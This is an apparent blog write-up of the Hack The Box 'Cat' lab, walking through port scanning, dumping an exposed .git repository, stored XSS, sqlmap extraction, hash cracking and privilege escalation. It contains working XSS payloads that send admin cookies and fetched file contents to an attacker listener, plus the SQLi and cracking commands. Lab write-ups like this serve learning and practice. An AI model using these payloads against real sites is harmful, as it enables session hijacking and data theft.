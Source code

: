 ```yaml
---
title: Cat - HTB
date: 2025-05-02 14:00:00 +0200
categories: [Hack The Box, Linux] 
tags: [Linux, priv-escalation, initial access, cat , XSS] 
toc: true
comments: true
image: ./assets/img/attachments/cat.png
imageNameKey: cat
---
```

In this writeup, I’ll be walking through the **Cat** machine from [Hack The Box](https://hackthebox.com), which is rated **Medium** in difficulty. This is the **fifth machine** I’m tackling as part of my journey to reach **1000 points**, and I’m documenting each step to reinforce my learning and help others in the community. The machine involves a mix of enumeration, web exploitation, and privilege escalation.
So lets start!
## Port Enumeration

I will start with scanning the most common ports
```bash
nmap -Pn -sV -F 10.10.11.53 -sC      
```
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 11:56 EDT
Nmap scan report for 10.10.11.53
Host is up (0.36s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

I'll perform full port enumeration while taking a closer look at the HTTP service.
```bash
 sudo nmap -sS -Pn -p- 10.10.11.53 -A -n -T5
```
Got nothing new beyond what I found earlier.
## Content Discovery
```bash
ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 3

ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-files.txt -e /.git/ -mc all -fc 404

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-1.png)

As we can see, the `.git` repository is present — let's check if it's accessible.
```bash
curl -s http://cat.htb/.git/HEAD
curl -s http://cat.htb/.git/config
curl -s http://cat.htb/.git/index
curl -s http://cat.htb/.git/logs/HEAD

```
```bash
ref: refs/heads/master
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
0000000000000000000000000000000000000000 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 Axel <axel2017@gmail.com> 1725146774 +0000       commit (initial): Cat v1
```
Now we will get those files using git_dumper.py
```bash
python3 git_dumper.py http://cat.htb/.git/ ./cat-source
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-2.png)

We got all application codes, so lets analyze them to find vulnerable injection point

## Gaining Access
![Whatever Alt Text You Want](/assets/img/attachments/cat-3.png)

Those are the parameters that are reflected in the page, and only **admins** can view them (at view_cat.php)

![Whatever Alt Text You Want](/assets/img/attachments/cat-4.png)

At contest.php: 4 parameters out pf five are filtered, but username doesn't

![Whatever Alt Text You Want](/assets/img/attachments/cat-5.png)

And here at join.php we can see that username is added without any checks or validations on the input and also we knew the hashing algorithm used for passwords (md5)
But since username isn't reflected for me and just at view_cat.php I will make admin trigger stored XSS to steal his cookies
```bash
python -m http.server 
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-12.png)

```
<script>
new Image().src = 'https://10.10.16.87/?c=' + document.cookie;
</script>
```

![Whatever Alt Text You Want](/assets/img/attachments/cat-8.png)
I add a cat and waited

![Whatever Alt Text You Want](/assets/img/attachments/cat-9.png)
I got admin cookie

![Whatever Alt Text You Want](/assets/img/attachments/cat-10.png)

Now we can see admin panel which is accept_cat.php

![Whatever Alt Text You Want](/assets/img/attachments/cat-11.png)

Which is vulnerable to SQLi, so i used sqlmap to dump all tables
```bash
sqlmap -u http://cat.htb/accept_cat.php --data="catId=1&catName=test" --cookie="PHPSESSID=admin php ssid" --level=5 --risk=3 --dbs -p catName --dbms=sqlite --tables --dump -T users --threads 9
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-13.png)
I couldn't crack axel password but was able to get rosa password
```bash
hashcat -m 0 -a 0 d1bbba3670feb9435c9841e46e60ee2f /usr/share/wordlists/rockyou.txt

```

![Whatever Alt Text You Want](/assets/img/attachments/cat-14.png)

I was able to connect to this user by ssh
![Whatever Alt Text You Want](/assets/img/attachments/cat-15.png)
using the same python server on my machine, I downloaded linpeas.sh on victim's machine.

![Whatever Alt Text You Want](/assets/img/attachments/cat-16.png)

After checking this one:
![Whatever Alt Text You Want](/assets/img/attachments/cat-17.png)

using this password i was able to increase my privileges
![Whatever Alt Text You Want](/assets/img/attachments/cat-18.png)
And we got user flag!
## Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cat-19.png)

Lets check those ports
```bash
ssh -L 3000:127.0.0.1:3000 axel@cat.htb

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-20.png)

I found this website, and i logged in with axel's credentials, and the service version has exploits

![Whatever Alt Text You Want](/assets/img/attachments/cat-21.png)

```js
<a href="javascript:location.href='http://ip:8000?c='+document.cookie">XSS test</a>
```
But didn't work as the previous case where admin visits the page, something is missing

![Whatever Alt Text You Want](/assets/img/attachments/cat-22.png)
Lets check this one!
![Whatever Alt Text You Want](/assets/img/attachments/cat-23.png)

Mail must be sent to jobert, but we can see that this page doesn't have cookie header:
```js
<a href="javascript:alert(document.cookie)">Click me</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-24.png)

**You must upload any file on the created repo to procced!**
I wanted to validate that the admin views the repo as mentioned at the mail
```js
<a href="javascript:fetch('http://10.10.16.87:8000/?ping=1')">Test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-25.png)

And since  i couldn't access this page : http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md
```js
<a href="javascript:
fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
.then(r => r.text())
.then(d => fetch('http://ip:8000/?leak=' + btoa(d)))
">Click me</a>

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-26.png)
nothing important here
```
# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

I tried to get the content of the other files at this repo, couldn't list them, but after guessing (trial and error) i got the content of index.php
```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.16.87:8000/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-27.png)

![Whatever Alt Text You Want](/assets/img/attachments/cat-28.png)

I couldn't log in to administrator account with this password but it worked as root password!
![Whatever Alt Text You Want](/assets/img/attachments/cat-29.png)

**And done!**  
That was a tough one — definitely one of the more challenging tasks I've tackled. But every step was a learning opportunity, and I gained a lot of valuable insight along the way. Looking forward to applying these lessons in future challenges!
